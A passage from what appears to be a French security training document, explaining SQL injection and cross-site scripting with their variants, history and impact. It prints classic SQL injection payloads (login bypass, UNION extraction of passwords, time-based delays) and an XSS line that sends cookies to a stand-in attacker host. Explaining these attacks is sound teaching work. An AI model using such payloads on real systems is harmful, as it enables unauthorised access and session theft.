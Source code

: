 1.4  Vulnérabilités Ciblées : Mécanismes et Impacts
1.4.1  SQL Injection (SQLi) — OWASP A03
L'injection SQL est l'une des vulnérabilités les plus anciennes et les plus dangereuses. Elle survient lorsque des données utilisateur non validées sont incorporées directement dans des requêtes SQL, permettant à un attaquant de manipuler la logique de la base de données. La première description formelle date de 1998 (Jeff Forristal), et malgré 25 ans de sensibilisation, les injections SQL restent parmi les vecteurs d'attaque les plus fréquents, responsables de brèches majeures (Sony PlayStation Network 2011, Yahoo 2012, Ashley Madison 2015).
Trois variantes principales existent :
•	SQLi basée sur les erreurs : L'application retourne des messages d'erreur SQL directs, révélant la structure de la base.
•	SQLi basée sur le temps : L'application est vulnérable mais ne renvoie pas d'erreurs — on utilise des délais (SLEEP, WAITFOR) pour déduire les informations bit à bit.
•	SQLi booléenne : En injectant des conditions TRUE/FALSE, on observe si la réponse change pour déduire des informations sans messages d'erreur.
Code : Exemples de payloads SQL Injection classiques
-- Authentification bypass classique
' OR '1'='1
' OR '1'='1'--
admin'--

-- Extraction de données (UNION-based)
' UNION SELECT username, password, NULL FROM users--

-- Time-based (MySQL)
' AND SLEEP(5)--

-- Time-based (MSSQL)
'; WAITFOR DELAY '0:0:5'--

-- Time-based (PostgreSQL)
' OR pg_sleep(5)--
Impact : lecture complète de la base de données, modification ou suppression de données, contournement de l'authentification, exécution de commandes OS (via xp_cmdshell sur MSSQL). Score CVSS v3.1 : 9.8 (Critique).
1.4.2  Cross-Site Scripting (XSS) — OWASP A03
Le XSS permet à un attaquant d'injecter du code JavaScript malveillant dans les pages web vues par d'autres utilisateurs. C'est l'une des vulnérabilités les plus répandues sur le web, présente dans près de 75 %
•	XSS Réfléchi (Reflected) : Le payload est inclus dans l'URL et reflété immédiatement dans la réponse. Nécessite d'inciter la victime à cliquer sur un lien malveillant.
•	XSS Persistant (Stored) : Le payload est stocké en base de données (commentaire, profil) et servi à tous les visiteurs. Beaucoup plus dangereux car automatique.
•	XSS basé sur le DOM : Exploitation du DOM côté client sans passer par le serveur — le payload ne transite pas dans la réponse HTTP.
Code : Exemples de payloads XSS
<!-- XSS basique — vol de cookie -->
<script>document.location='http://attacker.com/steal?c='+document.cookie</script>


